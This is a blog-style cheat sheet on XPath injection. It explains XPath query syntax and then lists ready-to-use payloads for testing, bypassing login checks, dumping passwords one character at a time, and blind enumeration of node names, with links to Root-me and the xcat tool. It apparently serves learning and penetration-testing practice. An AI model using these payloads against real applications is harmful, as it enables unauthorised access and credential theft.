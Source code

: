 ```yaml
---
layout: post
title:  "XPath injections"
date:   2019-1-1 16:57:56 +0100
---
```

# Introduction
* XPath: XML Path Language. Interpreted language to navigate XML documents.
  XPath expression: sequence of steps required to navigate from one node to another
* XML files used to store applications configuration, and sometimes credentials, roles and privileges
* Single quotes not needed for numeric values
* Keywords and tag names in XML documents are case-sensitive
* Strategy: when regular SQL injections fail, it might be an XPath injection

# Example of queries
* Retrieve all email addresses: `//address/email/text()`
* Retrieve all information under `address` for the user Dawes: `//address[surname/text()='Dawes']`
* Credential verification: `//address[surname/text()='$user' and password/text()='$pass']`
* Access 2nd node of the first user: `//user[position()=1]/child::node()[position()=2]/text()`
* Count the number of nodes of all users: `count(//user/child::node())`
* Length of string: `stringlength(//address/email/text())`
* Substring extraction: `substring(//user/name/text(), start, n_char)`


# Injections
* Testing: `'`, `' or 'a'='a`
* `//address[surname/text()]='Dawes' and password/text()='' or 'a'='a']/ccard/text()`
* Password dump: `' or //address[surname/text()='Dave' and substring(password/text(), 1, 1)= 'A'] and 'a'='a` return results if the first letter or the password is 'A'
* For strings:
  * `' or count(parent::*[position()=1])=0 or 'a'='b`
  * `' or count(parent::*[position()=1])>0 or 'a'='b`
* If numeric:
  * `1 or count(parent::*[position()=1])=0`
  * `1 or count(parent::*[position()=1])>0`
* Current's node parent name:
```
' or substring(name(parent::*[position()=1]), 1, 1) = 'a
' or substring(name(parent::*[position()=1]), 1, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'a
' or substring(name(parent::*[position()=1]), 2, 1) = 'b
' or substring(name(parent::*[position()=1]), 2, 1) = 'c
```
* `substring(//parentnodename[position()=1]/child::node()[position()=1]/text(), 1, 1)='a'`



# Resources
* XPath injection - authentication Root-me solutions
* XPath memo: EN - Introduction to Xpath injection techniques.pdf
* [Xcat tool](https://github.com/orf/xcat)
